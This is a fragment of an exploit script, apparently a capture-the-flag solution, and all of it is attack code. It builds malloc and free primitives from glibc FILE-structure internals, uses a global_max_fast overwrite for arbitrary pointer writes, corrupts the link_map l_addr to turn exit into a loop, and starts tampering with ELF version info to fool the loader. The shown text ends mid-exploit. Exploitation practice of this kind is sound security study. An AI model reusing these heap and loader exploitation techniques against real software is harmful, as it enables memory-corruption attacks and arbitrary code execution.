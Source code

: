 ```python

def malloc(size):
    assert size % 2 == 0
    old_size = int((size - 100) / 2)

    file = FileStructure()
    file._IO_buf_end = old_size
    file._IO_write_ptr = old_size + 1
    file._IO_read_ptr = 0xFFFFFFFFFFFFFFFF
    file._IO_read_end = 0xFFFFFFFFFFFFFFFF
    call_fn(libc.symbols["_IO_str_overflow"], bytes(file)[:0x48])
    # make sure __rtld_mutex_unlock goes without a hitch by setting invalid _kind
    write(_rtld_global._dl_load_lock() + 0x10, p8(0xFF))
    return size


def free():
    call_fn(libc.symbols["_IO_str_finish"])


# global_max_fast ow implementation
page_mem_alloc = 0


def gmf_size(offset):
    return (offset - libc.symbols["main_arena"] + 0x8) * 2 - 0x10


def ptr_write(offset):
    global page_mem_alloc
    # use global_max_fast attack to overwrite
    write(offset, p64(0))
    size = gmf_size(offset)
    A = malloc(size)
    write(libc.symbols["global_max_fast"], p64(0xFFFFFFFFFFFFFFFF))
    # write chunk header
    write(-page_boundary(A) - 8 - page_mem_alloc, p64(size | 1))
    # write fake chunk header for next check
    write(-page_boundary(A) + size - 0x8 - page_mem_alloc, p8(0x50))
    page_mem_alloc += page_boundary(A)
    # write fastbin addr
    free()
    write(libc.symbols["global_max_fast"], p64(0))
    return -page_mem_alloc


r = conn()

# ----------- loop program -----------
# l_addr is always mmap aligned, meaning that the last three nibbles is always 000.
# changing the lsb allows us to add some constant offset to l_addr
# when write@got is resolved, it'll write write@libc to &write@got.
# &write@got is calculated as l_addr + reloc offset, so we can
# write@libc to &exit@libc to cancel exit.
# because of gcc optimizations, no ret is after exit. we'll slide into main,
# which will slide into csu init. that'll call constructors, looping the process.

l_addr_offset = exe.got["_Exit"] - exe.got["write"]
write(binary_map.l_addr(), p8(l_addr_offset))

# ----------- clear version info -----------
# version info will restrict what libraries we can load symbols from, it's a new feature in elfs
# old elfs don't have this feature, so just need to trick ld by clearing the version info ptr
```